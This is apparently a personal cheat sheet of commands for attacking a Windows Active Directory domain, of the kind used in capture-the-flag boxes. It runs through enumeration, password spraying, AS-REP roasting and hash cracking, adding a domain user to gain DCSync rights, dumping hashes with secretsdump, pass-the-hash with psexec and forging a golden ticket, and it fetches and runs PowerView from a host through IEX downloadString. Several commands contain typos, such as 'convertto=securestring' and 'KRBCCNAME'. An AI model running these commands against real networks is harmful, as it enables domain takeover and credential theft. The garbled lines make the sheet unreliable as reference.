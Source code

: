 ldapsearch -h 1.1.1.1 -x -b "dc=domain,dc=local"

ldapsearch -h 1.1.1.1 -x -b "dc=domain,dc=local" '(objectClass=Person)'


ldapsearch -h 1.1.1.1 -x -b "dc=domain,dc=local" '(objectClass=Person)' sAMAccountName

> create own wordlist

January .. February .. December.. Password .. P@ssw0rd .. Sauna .. Secret .. Spring .. Windows .. Autumn..

for i in $(cat pwlist.txt); do echo $i; echo ${i}2019; echo {i}2020; done > t

hashcat --force --stdout pwlist -r /user/share/hashcat/best64.rule


for i in $(cat pwlist.txt); do echo $i; echo {i}!; done > t

hashcat --force --stdout pwlist -r /user/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | wc -l


hashcat --force --stdout pwlist -r /user/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' | wc -l

copy to pwlist.txt

crackmapexec smb 1.1.1.1 --pass-pol

crackmapexec smb 1.1.1.1 --pass-pol -u '' -p ''

rpcclient -U '' 1.1.1.1

enumdomusers
queryusergroups 
queryuser
..
enum4linux 1.1.1.1

crackmapexec  smb 1.1.1.1 -u ldap-anonymous.out -p userlist.ldap == bruteforce

polenum -h

polenum -u '' -p '' -d domena.local 1.1.1.1

./GetNPUsers.py -dc-ip 1.1.1.1 -request 'domena.local/'

./GetNPUsers.py -dc-ip 1.1.1.1 -request 'domena.local/' --format hashcat > hash.txt

hashcat -m 18200 hash/hash.txt wordlist -r rules/InsidePro-PasswordPro.rule

evil-winrm

>>

$pass = convertto=securestring 'Password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('administrator', $cred)
New-PSDrive -Name drive -PSProvider FileSystem -Credential $cred -Root \\1.1.1.1\share

cd drive
WinPEAS.exe

bloodhound >>

locate neo4j "| grep auth
rm /usr/share.neo4j/data/dbms/auth << reset password to default
neo4j console

./BloodHount --no-sandbox

net user boh password123 /add /domain

net group "Exchange Windows Permission"

net group "Exchange Windows Permission" /add boh

net group "Exchange Windows Permission"

>> abuse WriteDACL, GenericAll

>> PowerView

git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev

cd PowerSploit/Recon

python3 -m http.server 80 

IEX(New-Object New.WebClient).downloadString('http://1.1.1.1/PowerView.ps1')


$pass = convertto=securestring 'Password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('domain\victim', $cred)
Add-DomainObjectAcl -Credential $cred -TargetIdentity domain.local -Rights DCSync
Add-DomainObjectAcl -Credential $cred -TargetIdentity "dc=domain,dc=local" -PrincipalIdentity victim -Rights DCSync

secretsdump.py

./secretsdump.py domain.local/victim:Password123@1.2.3.4

cat hashes.xt | grep ::: | awk -F: '{print $1":"$4}'

hashcat -m 1000 hashes.txt -r rules/InsidePro-PasswordPro.rule

hashcat --user -m 1000 hashes.txt -r rules/InsidePro-PasswordPro.rule

hashcat -m 1000 hashes.txt --show

crackmapexec smb 1.2.3.4 -u administrator -H 123123123123131313131

./psexec -hashes 12312313123123131231 administrator@1.2.3.4

golden ticket
-------------

Get-ADDomain >> copy S-I-D

impacket ticketer.py

ticketer.py -nthash (krbtgh-hash.....) -domain-sid .... -domain domain.local nonexistinguser 

>> creates ccache ticket

export KRBCCNAME=nonexistinguser.ccache

./psexec domain.local/nonexistinguser@1.1.1.1 -k -no-pass

(maybe add domain.local to /etc/hosts)

date -s 10:24:37

nmap -p 445 -sC -sV 1.1.1.1 (search for clock skew) 

